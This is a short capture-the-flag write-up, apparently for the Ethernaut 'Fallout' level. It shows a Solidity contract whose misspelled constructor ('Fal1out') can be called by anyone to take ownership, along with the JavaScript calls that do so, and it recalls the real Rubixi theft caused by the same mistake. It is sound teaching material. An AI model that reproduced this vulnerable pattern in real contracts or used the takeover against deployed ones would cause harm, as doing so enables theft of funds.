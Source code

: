 # 02. Fallout

Claim ownership of the contract below to complete this level.

Things that might help:

- Solidity Remix IDE

## Solution

...

a typo...

in the constructor name...

`Fal1out` instead of `Fallout`

```solidity
function Fal1out() public payable {
  owner = msg.sender;
  allocations[owner] = msg.value;
}
```

```javascript
await contract.Fal1out({value: toWei('0.00000001')})
await contract.owner() == player
// true
```

## OZ Corner

That was silly wasn't it? Real world contracts must be much more secure than this and so must it be much harder to hack them right?

Well... Not quite.

The story of Rubixi is a very well known case in the Ethereum ecosystem. The company changed its name from 'Dynamic Pyramid' to 'Rubixi' but somehow they didn't rename the constructor method of its contract:

```solidity
contract Rubixi {
  address private owner;
  function DynamicPyramid() { owner = msg.sender; }
  function collectAllFees() { owner.transfer(this.balance) }
  ...
```

This allowed the attacker to call the old constructor and claim ownership of the contract, and steal some funds. Yep. Big mistakes can be made in smartcontractland.
